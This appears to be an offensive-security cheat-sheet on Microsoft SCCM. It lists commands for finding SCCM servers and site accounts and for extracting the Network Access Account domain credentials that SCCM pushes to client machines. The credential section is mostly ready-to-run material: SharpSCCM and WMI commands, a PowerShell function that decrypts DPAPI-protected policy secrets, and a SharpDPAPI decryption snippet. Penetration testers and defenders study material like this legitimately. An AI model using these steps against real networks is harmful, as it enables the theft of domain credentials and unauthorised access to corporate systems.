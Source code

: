# SCCM
 - Good summary of all different enum and attack techniques: https://http418infosec.com/offensive-sccm-summary   
 - SharpSCCM: https://github.com/Mayyhem/SharpSCCM    

## Enumeration
On a SCCM managed endpoint, you can find the Configuration Manager client in the Control Panel, where you can find the configuration (e.g. Site Server and Site Name).
If you do not have access to such a managed client, there are other ways:   
- Using PowerShell ADSI: `([adsisearcher]"(objectClass=mSSMSManagementPoint)").FindAll().properties`
- Using sccmhunter.py ( ) : `python3 sccmhunter.py find -u username -p 'pass' -d domain.local -dc-ip dc1.domain.local` 
- List SCCM accounts using sccmhunter.py: `python3 sccmhunter.py show -users`
- List SCCM computers using sccmhunter.py: `python3 sccmhunter.py show -computers`

Identifying SCCM servers from portscans (Nmap):    
- 8530, 8531, 10123 (Site Server, Management Point)
- 49152-49159 (Distribution Point)
- UDP 4011 (Operating System Deployment)
 
 ## Network Access Account
 Active Directory domain accounts used by systems that are not joined to AD.   
 SCCM deploys a so called "Network Access Account" to the workstations, which is used to access network shares. Pushed to every SCCM client in machine policy   
 Credentials are stored locally on clients as DPAPI blobs protected by the system's masterkey   
 - Retrievable via WMI as a privileged user
 - Remain in CIM repository (C:\Windows\System32\Wbem\Repository\OBJECTS.DATA) **after client is uninstalled or account rotation**

### NAA Creds
Retrieve and decrypt Network Access Account domain credentials from an SCCM client:   
`SharpSCCM.exe local naa wmi`   
WMI Query:   
`select * from CCM_NetworkAccessAccount`   

**Decrypt Credentials**   
The credentials can be extracted over DPAPI calls with the NT/SYSTEM user.   

```
# Source: https://github.com/rzander/sccmclictrlib/blob/46640553235664bf2da45dc7f6e1f09628a497b0/sccmclictr.automation/Properties/Resources.resx
function UnProtect-PolicySecret {
<#
    .SYNOPSIS
    Decrypts policy secrets (c) 2016 by Mattias Benninge
 
    .DESCRIPTION
    The UnProtect-PolicySecret CmdLet takes a encrypted string and returnsthe decrypted sting.
     
    .NOTES
    This function must be run under the local system account on the computer that encrypted the data.
   
    .EXAMPLE
    UnProtect-PolicySecret -data "F600000001000000D08C9DDF0115D1118C7A00C04FC297EB010000006AF233F693"
 
    .PARAMETER Data
    [String] Encrypted data
#>
 
    [CmdletBinding()]
    PARAM (
        [Parameter(Position=0,Mandatory=$true,HelpMessage="Encrypted sting",ValueFromPipeline=$true)][Alias("Data")][String] $strData
    )
                              
    # Chop string up into bytes, and drop the first 4 bytes
    [System.Byte[]]$byteData = New-Object System.Byte[] $($strData.length / 2 - 4)
    for ($i = 0; $i -lt (($strData.length / 2) - 4); $i++)
    {
        $byteData[$i] = [System.Convert]::ToByte($strData.substring(($i + 4) * 2, 2),16)
    }
 
    #Add the security type assembly
    Add-Type -AssemblyName System.Security
             
    #Decrypt the data
    $bytePlainText = [System.Security.Cryptography.ProtectedData]::Unprotect($byteData , $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
    return $([System.Text.UnicodeEncoding]::Unicode.GetString($bytePlainText))
}
```
If you have the masterkey and the NAA policy you can also decrypt with this:   
```powershell
$str = "<BLOB>"
$bytes = for($i=0; $i -lt $str.Length; $i++) {[byte]::Parse($str.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber); $i++}
$b64 = [Convert]::ToBase64String($bytes[4..$bytes.Length])
SharpDPAPI.exe blob /target:$b64 /mkfile:<PATH TO FILE CONTAINING MASTERKEY GUID:SHA1 PAIR>
```
